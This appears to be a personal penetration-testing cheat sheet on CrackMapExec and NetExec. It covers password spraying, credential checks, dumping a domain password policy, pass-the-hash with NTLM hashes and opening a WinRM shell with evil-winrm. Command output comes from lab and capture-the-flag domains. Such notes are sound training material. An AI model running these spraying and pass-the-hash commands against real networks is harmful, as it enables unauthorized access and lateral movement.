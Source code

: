 - [Installation](#installation)
- [Test Credential](#test-credential)

## [Installation](#installation-1)
```sh
python3 -m pip install pipx
git clone https://github.com/mpgn/CrackMapExec
cd CrackMapExec
pipx install .
```

### TL;DR
```sh
cme smb $ip -u users.txt -p sT333ve2
cme smb $ip -u users.txt -p sT333ve2 --continue-on-success
```

### [Test Credential](#test-credential-1)
```sh
PS C:\Users\fcastle> whoami
marvel\fcastle
PS C:\Users\fcastle> .\nxc.exe smb 10.1.1.6 -u fcastle -p Password1
SMB         10.1.1.6        445    PUNISHER         [*] Windows 10.0 Build 19041 x64 (name:PUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.1.1.6        445    PUNISHER         [+] MARVEL.local\fcastle:Password1 (Pwn3d!)

PS C:\Users\fcastle> .\nxc.exe smb 10.1.1.6 -u pparker -p Password2
SMB         10.1.1.6        445    PUNISHER         [*] Windows 10.0 Build 19041 x64 (name:PUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.1.1.6        445    PUNISHER         [+] MARVEL.local\pparker:Password2
PS C:\Users\fcastle>

PS C:\Users\fcastle> .\nxc.exe smb 10.1.1.6 -u pparker -p Wr0n9
SMB         10.1.1.6        445    PUNISHER         [*] Windows 10.0 Build 19041 x64 (name:PUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.1.1.6        445    PUNISHER         [-] MARVEL.local\pparker:Wr0n9 STATUS_LOGON_FAILURE
PS C:\Users\fcastle>
```

### [Dump password policy with "--pass-pol"](#dump-password-policy-with---pass-pol-1)
```sh
cme smb $ip -u support -p '#00^BlackKnight' --pass-pol
```

### [Pass-the-Hash (PtH) with "-H"](#pass-the-hash-pth-with--h--successful)
cme smb $ip -u Administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62

### [Pass the hash (PtH)](https://attack.mitre.org/techniques/T1550/002/)
> Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password.

### [WINRM Pwn3d!](#winrm-pwn3d-2)
cme smb $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

### [WINRM Pwn3d!](#winrm-pwn3d-2)
cme winrm $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

### [PtH with evil-winrm](#pth-with-evil-winrm-1)
evil-winrm -i $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d


```
--continue-on-success
                        continues authentication attempts even after successes
```


## CrackMapexec v5.4.0 (2023.1-3) doesn't work well. Update latest version manually
```sh
$ cat /etc/os-release 
PRETTY_NAME="Kali GNU/Linux Rolling"
NAME="Kali GNU/Linux"
VERSION_ID="2023.3"
VERSION="2023.3"
...
```

### Installation

https://github.com/mpgn/CrackMapExec

https://wiki.porchetta.industries/getting-started/installation

https://wiki.porchetta.industries/getting-started/installation/installation-on-unix

```

```

### 
```

```

### Examples
### Dump password policy with "--pass-pol"
```sh
$ cme smb $ip -u support -p '#00^BlackKnight' --pass-pol
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
SMB         10.10.10.192    445    DC01             [+] Dumping password info for domain: BLACKFIELD
SMB         10.10.10.192    445    DC01             Minimum password length: 7                                                                                         
SMB         10.10.10.192    445    DC01             Password history length: 24                                                                                        
SMB         10.10.10.192    445    DC01             Maximum password age: 41 days 23 hours 53 minutes                                                                  
SMB         10.10.10.192    445    DC01                                                                                                                                
SMB         10.10.10.192    445    DC01             Password Complexity Flags: 000001                                                                                  
SMB         10.10.10.192    445    DC01                 Domain Refuse Password Change: 0                                                                               
SMB         10.10.10.192    445    DC01                 Domain Password Store Cleartext: 0
SMB         10.10.10.192    445    DC01                 Domain Password Lockout Admins: 0
SMB         10.10.10.192    445    DC01                 Domain Password No Clear Change: 0
SMB         10.10.10.192    445    DC01                 Domain Password No Anon Change: 0
SMB         10.10.10.192    445    DC01                 Domain Password Complex: 1
SMB         10.10.10.192    445    DC01             
SMB         10.10.10.192    445    DC01             Minimum password age: 1 day 4 minutes 
SMB         10.10.10.192    445    DC01             Reset Account Lockout Counter: 30 minutes 
SMB         10.10.10.192    445    DC01             Locked Account Duration: 30 minutes 
SMB         10.10.10.192    445    DC01             Account Lockout Threshold: None
SMB         10.10.10.192    445    DC01             Forced Log off Time: Not Set
```

### Pass-the-Hash (PtH) with "-H" ; STATUS_LOGON_FAILURE
```sh
$ cme smb $ip -u Administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 STATUS_LOGON_FAILURE
```

### Pass-the-Hash (PtH) with "-H" ; Successful
```sh
$ cme smb $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d
```

### WINRM Pwn3d!
```sh
$ cme winrm $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```

### [PtH with evil-winrm](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)
```sh
$ evil-winrm -i $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```

### 
```

```

https://pypi.org/project/crackmapexec/

# CrackMapexec | SMB & AD Enumeration Simplified !]
https://systemweakness.com/crackmapexec-smb-ad-enumeration-simplified-21e603927f44

https://wiki.porchetta.industries/

https://ptestmethod.readthedocs.io/en/latest/cme.html

https://github.com/Porchetta-Industries/CrackMapExec/wiki/SMB-Command-Reference